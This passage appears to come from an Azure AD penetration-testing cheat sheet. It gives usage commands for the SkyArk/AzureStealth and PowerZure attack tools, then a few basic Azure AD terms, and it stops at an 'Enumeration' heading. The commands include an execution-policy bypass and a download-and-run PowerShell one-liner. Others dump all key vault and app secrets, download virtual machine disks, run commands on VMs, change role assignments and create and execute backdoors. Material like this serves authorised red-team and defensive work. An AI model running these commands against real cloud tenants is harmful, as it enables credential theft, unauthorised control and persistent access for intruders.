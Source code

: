     ```powershell
    $ git clone https://github.com/cyberark/SkyArk
    $ powershell -ExecutionPolicy Bypass -NoProfile
    PS C> Import-Module .\SkyArk.ps1 -force
    PS C> Start-AzureStealth

    or in the Cloud Console

    PS C> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/cyberark/SkyArk/master/AzureStealth/AzureStealth.ps1')  
    PS C> Scan-AzureAdmins  
* **PowerZure** - 
    ```powershell
    require az module !
    $ git clone https://github.com/hausec/PowerZure
    $ ipmo .\PowerZure
    $ Set-Subscription -Id [idgoeshere]

    # Reader
    $ Get-Runbook, Get-AllUsers, Get-Apps, Get-Resources, Get-WebApps, Get-WebAppDetails

    # Contributor
    $ Execute-Command -OS Windows -VM Win10Test -ResourceGroup Test-RG -Command "whoami"
    $ Execute-MSBuild -VM Win10Test  -ResourceGroup Test-RG -File "build.xml"
    $ Get-AllSecrets # AllAppSecrets, AllKeyVaultContents
    $ Get-AvailableVMDisks, Get-VMDisk # Download a virtual machine's disk

    # Owner
    $ Set-Role -Role Contributor -User test@contoso.com -Resource Win10VMTest
    
    # Administrator
    $ Create-Backdoor, Execute-Backdoor
    ```

## Terminology

> Basic Azure AD terminologies

* **Tenant**: An instance of Azure AD and represents a single organization.
* **Azure AD Directory**: Each tenant has a dedicated Directory. This is used to perform identity and access management functions for resources.
* **Subscriptions**: It is used to pay for services. There can be multiple subscriptions in a Directory.
* **Core Domain**: The initial domain name <tenant>.onmicrosoft.com is the core domain. It is possible to define custom domain names too.
    

## Enumeration
